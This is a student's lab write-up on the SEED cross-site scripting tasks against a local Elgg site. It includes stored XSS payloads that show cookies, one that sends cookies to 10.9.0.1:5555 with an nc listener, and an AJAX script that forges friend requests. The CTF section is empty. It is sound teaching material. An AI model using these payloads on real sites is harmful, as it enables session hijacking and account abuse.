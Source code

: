 # Work performed during the week #10

## CTF

### Goal
- 

### Challenge 1

- 

### Challenge 2

- 

## SeedLab

### Task 1

- For the task 1, we choose to login with the user Alice. After we logged in we went to edit profile and in the input for brief discreption we add the script ``<script>alert('XSS');</script>``.

- This way, every time the brief discreption field is asked for a web page, it will execute the alert we inserted. This justifies why even in the list of users the alert is triggered. Because this list not only the users, but the brief discreption of each user.

### Task 2

- Still using user Alice, we went to edit profile and in the input for brief discreption we add another script. Instead of the script ``<script>alert('XSS');</script>`` we use the script ``<script>alert(document.cookie);</script>``, so we can now print the cookies.

- The result of the alert is ``pvisitor=a6b4dccd-99d9-4a92-a50a-9a850b3592ab; Elgg=i0mr1o4tlhlimds4ncd0da5nb7``.

### Task 3

- In this task, instead of only the user can see the cookies, we want to send an HTTP request with the cookies appended to the request in order so see them.
- In order to do that we user a script that do that, `` <script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script> ``.
- This sript inserts the img tag, the browser tries to load the image from the URL in the src field, this results in an HTTP GET request sent to our machine, with the cookies to the port 5555 of our machine (with IP address 10.9.0.1).
- We use the program ``nc -lknv 5555``, to have a TCP server that listens for a connection on the specified port (5555).
- This program will print out the HTTP request with the cookies of the client.

### Task 4

- In this task, we will use a script that adds Samy as a friend to any other user that visits Samy’s page.
- First we find out how a legitimate user adds a friend in Elgg.
- We use Firefox’s ``HTTP inspection tool`` to help us get what are sent to the server when a user adds a friend.
- Inspectioning the contents of the HTTP GET request that was sent when the add friend button was clicked, we identify all the parameters in the request.
- Finding that the data is attached to the URL ``http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug&__elgg_ts=1642154629&__elgg_token=cjBSuLpxRMRNZH0Uoq_zug``.
- The parameters are placed after the URL by``?`` and separated by ``&``, that parameters being, first ``friend=59`` and the variables ``ts`` and ``token``.

- ``<script type='text/javascript'>
        window.onload = function () {
        var Ajax=null;
        var ts='&__elgg_ts='+elgg.security.token.__elgg_ts;
        var token='&__elgg_token='+elgg.security.token.__elgg_token;
        var sendurl='http://www.seed-server.com/action/friends/add?friend=59'+ts+token;
        Ajax=new XMLHttpRequest();
        Ajax.open('GET', sendurl, true);
        Ajax.send();
        }
    </script>``

- ``http://www.seed-server.com/action/friends/add?friend=59``

- ``'http://www.seed-server.com/action/friends/add?friend=59'+ts+token``





